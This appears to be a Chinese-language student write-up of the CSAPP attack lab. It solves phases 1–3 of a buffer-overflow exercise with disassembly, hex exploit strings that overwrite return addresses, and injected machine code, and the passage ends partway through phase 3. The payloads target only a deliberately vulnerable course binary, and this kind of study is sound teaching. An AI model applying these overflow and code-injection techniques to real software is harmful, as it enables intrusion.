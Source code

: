 
<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [简介](#简介)
- [ctarget](#ctarget)
  - [phase1](#phase1)
  - [phase2](#phase2)
  - [phase3](#phase3)

<!-- /code_chunk_output -->


## 简介
----

1. csapp attack lab
   attack lab包含2个随机生成的可执行文件，都包含缓冲区溢出漏洞。ctarget进行3次code injection（代码注入攻击），rtarget进行2次return-oriented programming攻击。详见`WRITEUP`。

2. hex2raw使用方法
   - 方法一
      ```bash
      cat exploit.txt | ./hex2raw | ./ctarget
      ```
   - 方法二
      ```bash
      ./hex2raw < exploit.txt > exploit-raw.txt
      ./ctarget < exploit-raw.txt # 或./ctarget -i exploit-raw.txt
      ```
   - 在gdb里使用：
   ```
   (gdb) run -q < exploit-raw.txt
   ```


## ctarget
----

### phase1

1. 任务
   在`getbuf`返回后跳转执行`touch1`函数，即修改保存的返回地址。使用`objdump -d`反汇编，查看`touch1`地址为`0x4017c0`。

2. 在`getbuf`函数打断点：
   ```c
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x00000000004017a8 <+0>:	sub    $0x28,%rsp
      0x00000000004017ac <+4>:	mov    %rsp,%rdi
   => 0x00000000004017af <+7>:	callq  0x401a40 <Gets>
      0x00000000004017b4 <+12>:	mov    $0x1,%eax
      0x00000000004017b9 <+17>:	add    $0x28,%rsp
      0x00000000004017bd <+21>:	retq   
   End of assembler dump.
   ```
   在调用`Gets`之前，在栈上开辟了大小为0x28（40）的空间，推测`BUFFER_SIZE=40Byte`。用随意40个字节填满buffer，然后用`touch1`的地址覆盖返回地址。

   在`ctarge.l1`中写入：
   ```
   00 01 02 03 04 05 06 07 08 09
   10 11 12 13 14 15 16 17 18 19
   20 21 22 23 24 25 26 27 28 29
   30 31 32 33 34 35 36 37 38 39
   c0 17 40 00 00 00 00 00 /* ret address */
   ```

   注意数据在栈上存放的位置，我的机器是大端模式
   ```c
   (gdb) print /x *(long*)($rsp-0x28)
   $38 = 0x706050403020100
   ```
   ![ctarget_l1_stack](./ctarget_l1_stack.png)

### phase2

1. 任务
   跳转执行`touch2`函数，并传入正确的`cookie`。

2. 查看`touch2`函数
   ```c
   (gdb) disas
   Dump of assembler code for function touch2:
      0x00000000004017ec <+0>:	sub    $0x8,%rsp
      0x00000000004017f0 <+4>:	mov    %edi,%edx
      0x00000000004017f2 <+6>:	movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
      0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
      0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   => 0x0000000000401804 <+24>:	mov    $0x4030e8,%esi
      0x0000000000401809 <+29>:	mov    $0x1,%edi
      0x000000000040180e <+34>:	mov    $0x0,%eax
      0x0000000000401813 <+39>:	callq  0x400df0 <__printf_chk@plt>
      0x0000000000401818 <+44>:	mov    $0x2,%edi
      0x000000000040181d <+49>:	callq  0x401c8d <validate>
      0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
      0x0000000000401824 <+56>:	mov    $0x403110,%esi
      0x0000000000401829 <+61>:	mov    $0x1,%edi
      0x000000000040182e <+66>:	mov    $0x0,%eax
      0x0000000000401833 <+71>:	callq  0x400df0 <__printf_chk@plt>
      0x0000000000401838 <+76>:	mov    $0x2,%edi
      0x000000000040183d <+81>:	callq  0x401d4f <fail>
      0x0000000000401842 <+86>:	mov    $0x0,%edi
      0x0000000000401847 <+91>:	callq  0x400e40 <exit@plt>
   End of assembler dump.
   ```
   显然，我们只需要跳转到地址`0x401804`处。

   在`ctarge.l2`中写入：
   ```
   00 01 02 03 04 05 06 07 08 09
   10 11 12 13 14 15 16 17 18 19
   20 21 22 23 24 25 26 27 28 29
   30 31 32 33 34 35 36 37 38 39
   04 18 40 00 00 00 00 00 00 00
   ```

   但是，出现报错：
   ```c
   (gdb) run -q < ctarget-raw.l2
   The program being debugged has been started already.
   Start it from the beginning? (y or n) y
   Starting program: /home/enterprise/github/csapp_lab/attacklab/ctarget -q < ctarget-raw.l2
   Cookie: 0x59b997fa

   Breakpoint 5, printf (__fmt=0x4030e8 "Touch2!: You called touch2(0x%.8x)\n") at /usr/include/x86_64-linux-gnu/bits/stdio2.h:105
   warning: Source file is more recent than executable.
   105	printf (const char *__restrict __fmt, ...)
   ```
   原因是printf函数中的格式是`0x%.8x`，传入的参数不符合要求，并且`validate`函数应该用于检查是否合法。所以不能直接跳转来欺骗，先修改返回地址，跳转到我们的注入代码中，修改`%edi`寄存器的值并跳转到`touch2`（根据`WRITEUP`，建议使用ret跳转，所以先`push`地址再`ret`）。`cookie`存放在地址`0x6044e4`处。

3. 注入攻击代码
   参考`WRITEUP`,手写汇编代码，然后编译并反汇编得到机器码。

   汇编文件`example.s`
   ```c
   mov $0x6044e4,%edi
   mov (%edi),%edi
   push $0x4017ec
   ret
   ```
   再反汇编得到机器码
   ```c
   0:	bf e4 44 60 00       	mov    $0x6044e4,%edi
   5:	67 8b 3f             	mov    (%edi),%edi
   8:	68 ec 17 40 00       	pushq  $0x4017ec
   d:	c3                   	retq   
   ```

   最后得到`ctarget.l2`
   ```c
   00 01 02 03 04 05 06 07 08 09
   10 11 12 13 14 15 16 17 18 19
   20 21 22 23 24 25 26 27 28 29
   30 31 32 33 34 35 36 37 38 39
   a8 dc 61 55 00 00 00 00 /* ret address */
   bf e4 44 60 00  /* mov $0x6044e4,%edi */
   67 8b 3f        /* mov (%edi),%edi */
   68 ec 17 40 00  /* push $0x4017ec */
   c3              /* ret */
   ```
   
   我的注入代码选择放在返回地址后面。放在`getbuf`的栈帧里可能更安全，否则可能覆盖一些数据导致程序异常退出。
   ![ctarget_l2_stack](./ctarget_l2_stack.png)

### phase3
1. 任务
   - 漏洞字符串中包含`cookie`的字符串表示形式，包含8个16进制数（没有0x开头）。
   - 字符串以值为0的字节结尾。
   - 设置`%rdi`寄存器的值为这个字符串。
   - 当调用`hexmatch`和`strncmp`时，他们把数据push入栈，可能会覆盖`getbuf`的栈帧，所以要注意`cookie string`的存放位置。

2. 在进入`hexmatch`之前打断点
   ```c
   (gdb) disas
   Dump of assembler code for function touch3:
      0x00000000004018fa <+0>:	push   %rbx
      0x00000000004018fb <+1>:	mov    %rdi,%rbx  ;%rbx=cookie string
      0x00000000004018fe <+4>:	movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
      0x0000000000401908 <+14>:	mov    %rdi,%rsi  ;%rsi=cookie string
      0x000000000040190b <+17>:	mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie> ;%edi=cookie
   => 0x0000000000401911 <+23>:	callq  0x40184c <hexmatch>
   ```
   查看`rsp`地址为`0x5561dca0`，cookie仍然存放在地址`0x6044e4`处，值为0x59b997fa，对应的16进制为`35 39 62 39 39 37 66 61 00`。`rbx`和`rsi`保存cookie string，`edi`保存cookie。

3. 进入`hexmatch`查看
   跳转后`rsp`=0x5561dc98，返回地址入栈。
   ```c
   (gdb) disas
   Dump of assembler code for function hexmatch:
      0x000000000040184c <+0>:	push   %r12
      0x000000000040184e <+2>:	push   %rbp
      0x000000000040184f <+3>:	push   %rbx ;%rsp-24=0x5561dc80，cookie sring入栈
      0x0000000000401850 <+4>:	add    $0xffffffffffffff80,%rsp  ;%rsp-128=0x5561dc00
      0x0000000000401854 <+8>:	mov    %edi,%r12d ；%r12d=cookie
      0x0000000000401857 <+11>:	mov    %rsi,%rbp
      0x000000000040185a <+14>:	mov    %fs:0x28,%rax
      0x0000000000401863 <+23>:	mov    %rax,0x78(%rsp)
      0x0000000000401868 <+28>:	xor    %eax,%eax
      0x000000000040186a <+30>:	callq  0x400db0 <random@plt>
   ```
   `ecx`寄存器保存format，`rdi`保存cookie，关键是找到char *s